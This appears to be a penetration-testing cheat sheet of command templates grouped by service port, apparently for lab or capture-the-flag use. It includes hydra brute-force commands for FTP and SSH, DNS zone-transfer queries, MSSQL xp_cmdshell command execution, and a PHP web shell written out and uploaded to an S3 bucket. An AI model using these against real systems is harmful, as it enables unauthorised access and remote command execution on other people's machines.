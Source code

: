 # Services

## FTP (21)
- check anonymous login
```
ftp <ip>

> put <local-file> # upload file
> get <server-file> # download file

hydra -L users.txt -P passwords.txt <ip> ftp # brute force
```

## SSH (22)
```
ssh <user>@<target-ip>
ssh -i id_rsa <user>@<target-ip>
ssh -L <lport>:127.0.0.1:<rport> <user>@<target-ip>

ssh-keygen -t rsa -b 4096

hydra -L users.txt -P passwords.txt <IP> ssh
```

## DNS (53)
```
dig axfr @<DNS-IP>
dig axfr @<DNS-IP> <DOMAIN>
dig ANY @<DNS-IP> <DOMAIN>
dig -x <ip> @<DNS-IP>
```

## SMB (139/445)
```
smbclient -L \\\\<target-ip>\\
smbclient \\\\<target-ip>\\<share>
> put <local-file>
> get <server-file>
```

## SNMP (161)
```
snmpwalk -c public -v1 <rhost>
```

## Redis (6379)
```
redis-cli -h <target-ip>
> select 0
> keys *
> get <key>
```

## MSSQL (1433)
- shell with ``enable_xp_cmdshell``
- run commands: ``xp_cmdshell <command>``
```
mssqlclient.py <user>@<target-ip>
mssqlclient.py <user>@<target-ip> -windows-auth
```

## MongoDB (27017)
```
mongo "mongodb://<user>:<password>@<rhost>:27017"
> show dbs
> use <db>
> show collections
> db.<collection>.find()
```

## MySQL (3306)
```
mysql -h <target-ip> -u <user> -p
> show databases;
> use <db>;
> show tables;
> select * from <table>;
```

## RDP (3389)
```
xfreerdp /u:<username> /p:<password> /v:<rhost> +clipboard
xfreerdp /d:<domain> /u:<username> /p:<password> /v:<rhost>
```

## S3 Bucket
```
aws --endpoint=http://s3.<target> s3 ls s3://<target>
echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.<target> s3 cp shell.php s3://<target>/shell.php
```
